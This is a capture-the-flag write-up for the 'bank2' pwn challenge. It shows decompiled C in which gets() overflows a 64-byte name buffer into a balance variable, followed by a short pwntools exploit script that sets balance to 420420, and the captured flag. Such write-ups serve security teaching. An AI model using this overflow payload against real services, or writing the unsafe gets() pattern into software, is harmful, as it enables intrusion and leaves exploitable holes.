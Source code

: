 ## bank2

#### Solved by hieplpvip

```
nc 61.28.237.24 30203

author: xikhud
```

Open `bank2` with IDA:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 420420 )
    getFlag();
}
```

```cpp
void getFlag()
{
  system("cat flag.txt");
}
```

We use buffer overflow to overwrite `balance` with 420420 to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30203)
conn.sendlineafter("name:", b'a' * 64 + p32(420420))
conn.interactive()
```

Flag: `HCMUS-CTF{little_endian_is_fun}`
